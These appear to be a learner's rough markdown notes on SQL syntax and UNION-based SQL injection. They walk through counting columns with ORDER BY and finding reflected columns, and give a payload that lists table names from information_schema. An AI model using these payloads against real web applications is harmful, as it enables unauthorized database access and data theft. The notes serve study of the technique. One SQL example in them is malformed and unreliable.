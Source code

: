 ## SQL syntax 
-` select * where  from table where user ='joe' limit 0,1  ;   --` limit is here to limit the numbers of the output 
- ![[Pasted image 20240728121425.png]]
- ![[Pasted image 20240728122041.png]]

## injection 
- union cannot work if  the query calls  different numbers of columns 
- so we check for the number of columns in the query by `order by ***`
- if the number you gave  is work increase until it didn't work so the last number worked is the correct number  
- and then u need to know what number is interpreted in the page 
- by using `jeremy 'union select 1,2,3 #`
- after checking for numbers of calls  then you should use this 
- ` jeremy 'union select 1,2,table_name from information_schema.tables where table_schema =database() ; #`
- you use a valid syntax and then u inject the payload 
- 